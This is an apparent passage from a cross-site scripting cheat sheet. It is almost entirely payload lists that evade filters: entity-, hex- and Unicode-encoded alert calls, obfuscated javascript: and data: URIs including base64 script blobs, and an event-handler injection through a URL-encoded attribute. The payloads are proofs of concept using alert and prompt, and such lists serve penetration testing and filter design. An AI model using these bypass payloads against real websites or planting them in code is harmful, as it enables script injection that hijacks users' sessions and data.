 ```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```

**Note that URL encode will also work:**

```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

**Bypass inside event using Unicode encode**

```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```

### Special Protocols Within the attribute

There you can use the protocols **`javascript:`** or **`data:`** in some places to **execute arbitrary JS code**. Some will require user interaction on some won't.

```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
javascript:alert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
